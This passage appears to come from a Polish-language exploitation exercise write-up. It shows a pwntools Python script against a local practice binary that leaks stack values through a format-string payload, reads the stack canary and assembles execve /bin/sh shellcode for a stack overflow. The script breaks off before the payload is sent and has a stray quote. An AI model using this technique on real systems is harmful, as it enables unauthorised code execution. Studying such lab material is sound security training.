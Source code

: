 ![](pictures/2_offset_to_eip.png)


Kod exploitu znajduje się poniżej.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-3.o')'

p.writeline("%p " * 199)

data = p.readline()

data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

canary = int(data[154],16)

log.info("CANARY: 0x%08x" % canary)

shellcode_asm = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
"""

shellcode = asm(shellcode_asm)

buffer_len = 600

some_addres = int(data[157],16)

offset = 628

```